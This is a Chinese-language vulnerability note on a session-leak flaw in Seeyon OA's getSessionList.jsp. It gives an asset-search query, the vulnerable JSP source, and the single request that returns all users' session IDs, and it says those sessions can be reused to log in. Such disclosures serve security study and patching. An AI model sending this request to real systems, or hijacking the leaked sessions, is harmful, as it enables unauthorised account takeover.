

# 致远OA getSessionList.jsp Session泄漏漏洞

## 漏洞描述

通过使用存在漏洞的请求时，会回显部分用户的Session值，导致出现任意登录的情况

## 漏洞影响

未知

## 网络测绘

```
app="致远互联-OA"
```

## 漏洞复现

出现漏洞的源码

```
<%@ page contentType="text/html;charset=GBK"%>
<%@ page session= "false" %>
<%@ page import="net.btdz.oa.ext.https.*"%>
<%
    String reqType = request.getParameter("cmd");
    String outXML = "";
    boolean allowHttps = true;
    if("allowHttps".equalsIgnoreCase(reqType)){
        //add code to judge whether it allow https or not
        allowHttps = FetchSessionList.checkHttps();
        if (allowHttps) response.setHeader("AllowHttps","1");
    }
    if("getAll".equalsIgnoreCase(reqType)){
        outXML = FetchSessionList.getXMLAll();
    }
    else if("getSingle".equalsIgnoreCase(reqType)){
        String sessionId = request.getParameter("ssid");
        if(sessionId != null){
            outXML = FetchSessionList.getXMLBySessionId(sessionId);
        }
    }
    else{
        outXML += "<?xml version=\"1.0\" encoding=\"GB2312\"?>\r\n";
        outXML += "<SessionList>\r\n";
//        outXML += "<Session>\r\n";
//        outXML += "</Session>\r\n";
        outXML += "</SessionList>\r\n";
    }
    out.println(outXML);
%>
```

从上面的代码可知，当cmd参数为getAll时，便可获取到所有用户的SessionID ,请求

```
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

回显Session则存在漏洞



通过替换 Session即可登陆系统